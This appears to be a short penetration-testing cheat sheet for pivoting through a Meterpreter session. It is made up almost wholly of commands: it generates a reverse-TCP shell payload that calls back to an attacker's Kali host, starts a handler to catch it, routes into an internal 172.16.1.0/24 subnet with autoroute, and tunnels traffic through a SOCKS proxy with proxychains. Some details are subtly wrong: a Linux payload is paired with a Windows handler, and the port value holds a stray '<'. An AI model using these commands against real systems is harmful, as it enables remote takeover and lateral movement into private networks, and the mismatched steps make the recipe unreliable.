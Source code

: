 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

PIVOT USING AUTOROUTE IN METERPRETER SESSION

```bash - kali
msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=$KALI LPORT=<443 -f elf > shell-x64.elf
```

```bash - kali
msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST $KALI;set LPORT 443;run;"
```

```meterpreter - kali
run autoroute -s 172.16.1.0/24
```

```meterpreter - kali
run autoroute -p
```

```meterpreter - kali
background
```

```meterpreter - kali
use auxiliary/server/socks_proxy

```

```meterpreter - kali
info
```

```meterpreter - kali
options
```

```meterpreter - kali
run
```

sudo mousepad /etc/proxychains4.conf

socks5 127.0.0.1 1080




